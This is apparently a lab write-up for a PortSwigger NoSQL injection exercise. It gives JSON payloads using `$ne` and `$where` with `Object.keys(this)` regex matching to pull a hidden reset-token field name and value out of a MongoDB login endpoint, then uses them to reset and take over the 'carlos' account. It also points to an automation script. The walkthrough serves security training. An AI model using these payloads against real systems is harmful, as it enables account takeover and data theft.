

# Exploiting NoSQL operator injection to extract unknown fields

**Lab Url**: [https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-unknown-fields](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-unknown-fields)

## Objective

The user lookup functionality for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection.

To solve the lab, log in as `carlos`.

## Solution

The login endpoint accepts a JSON payload that is passed directly into a MongoDB query. By injecting MongoDB operators and JavaScript expressions via the `$where` clause, we can extract unknown field names and their values.

### Step 1: Detect operator injection

The login form sends JSON credentials. A simple quote doesn't break the query, but MongoDB operators like `$ne` (not equal) change the response:

```json
{"username":"carlos","password":"password"}
```

→ `Invalid username or password`

```json
{"username":"carlos","password":{"$ne": ""}}
```

→ `Account locked: please reset your password`

The different message confirms operator injection works.

### Step 2: Confirm JavaScript evaluation

Add a `$where` clause with a truthy and a falsy expression:

```json
{"username":"carlos","password":{"$ne": ""}, "$where":"1"}
```

→ `Account locked: please reset your password`

```json
{"username":"carlos","password":{"$ne": ""}, "$where":"0"}
```

→ `Invalid username or password`

The different outcomes confirm JavaScript inside `$where` is being evaluated.

### Step 3: Generate the password reset token

Before the token field exists, trigger a password reset for carlos. Submit his username to `/forgot-password`:

```
POST /forgot-password
csrf=TOKEN&username=carlos
```

The server generates a reset token for carlos and stores it in the database — this creates the field we will extract at index `[4]`.

### Step 4: Extract unknown field names

MongoDB stores documents as objects. Use `Object.keys(this)[N]` to access field names by index.

**Known field indices:**

| Index | Field |
|-------|-------|
| `[0]` | `_id` |
| `[1]` | `username` |
| `[2]` | `password` |
| `[3]` | `email` (discovered earlier by fuzzing) |

Index `[4]` is the next unknown field — it holds the password reset token name. Iterate through the remaining indices one at a time to find which one contains an interesting field.

**Payload format:** fuzz alphanumeric data into the `[FUZZ]` character pattern to reconstruct the field name character by character:

```json
{"username":"carlos","password":{"$ne": ""}, "$where": "Object.keys(this)[4].match(/^[FUZZ]/g)"}
```

When the response returns `Account locked`, the fuzzed characters match the start of the field name. Build the full field name character by character, then repeat for the other unknown indices.

### Step 5: Verify the extracted field

The extracted field is a password reset token name. Request the forgot-password page with both an invalid name and the extracted name:

```bash
GET /forgot-password?invalid=test                     # →  normal response
GET /forgot-password?EXTRACTED_FIELD=RANDOM-VALUE     # →  "Invalid token" error
```

The error message confirms the correct field name.



### Step 6: Extract the token value

Once the field name is known, extract its value using a regex match against the field.

**Payload format:** fuzz alphanumeric data into the `[FUZZ]` character pattern to reconstruct the token value character by character:

```json
{"username":"carlos","password":{"$ne": ""}, "$where": "this.TOKEN_NAME.match(/^[FUZZ]/g)"}
```

- `TOKEN_NAME` — the field name extracted in Step 4 (the password reset token field)
- `/^[FUZZ]/g` — matches the token value only if it starts with the fuzzed characters

When the response returns `Account locked`, the fuzzed characters match the start of the token value. Reconstruct the full token value character by character, then verify it against the `/forgot-password?EXTRACTED_FIELD=EXTRACTED_VALUE`.

### Step 7: Reset the password and login

Submit the extracted token value to the forgot-password endpoint:

```bash
GET /forgot-password?TOKEN_NAME=TOKEN_VALUE
```

Reset carlos's password, then log in as `carlos` to solve the lab.

**Automation script:** A Python script is available at [`lab_04_script.py`](./scripts/lab_04_script.py) that automates the token brute-force process.

```bash
python3 lab_04_script.py -u https://LAB-ID.web-security-academy.net/login -s your-session-cookie
```
